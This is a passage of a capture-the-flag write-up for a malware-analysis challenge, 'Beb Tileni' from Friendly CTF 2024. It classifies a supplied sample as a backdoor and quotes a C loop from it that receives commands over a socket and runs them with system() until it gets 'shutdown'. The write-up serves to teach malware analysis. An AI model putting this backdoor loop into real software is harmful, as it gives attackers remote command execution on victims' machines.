 ```yaml
---
title: "Beb Tileni"
eventName: "Friendly CTF 2024"
category: "Malware Anlysis"
difficulty: "Medium"
points: 488
---
```


# Beb Tileni

## Challenge Descritption

Someone sent me this silly cat. He says he can access my bank acount now! Good thing those free bitcoins didnt work. PS: I got back the source code but I still didn't understand it. Flag format: Securinets{MalwareType_SocketIP_Port_Password_ExitCommand} **Note: Although this is a malware, it's totally harmless. Your AV may flag it as malicious but it's totally fine to execute it and analyse it.**

---

## Provided Files

beb.exe (Can't upload a malware here!!)

[chat_mechant.c](/assets/beb_tileni/chat_mechant.c)

---

## TL;DR

**Malware Type:** Backdoor

This is a backdoor since it accepts remote commands and extecutes them on the victim's cmd.
```c
while (password) {
    memset(buffer, 0, 256);
    n = recv(newsockfd, buffer, 255, 0);
    if (n == SOCKET_ERROR) {
        printf("ERROR reading from socket\n");
        closesocket(newsockfd);
        break;
    }

    if (strncmp("shutdown", buffer, 8) == 0) {
        send(newsockfd, "Shutting down.\n", 15, 0);
        password = 0;
        closesocket(newsockfd);
        break;
    }

    system(buffer);
    send(newsockfd, "Command executed.\n", 18, 0);
}
```
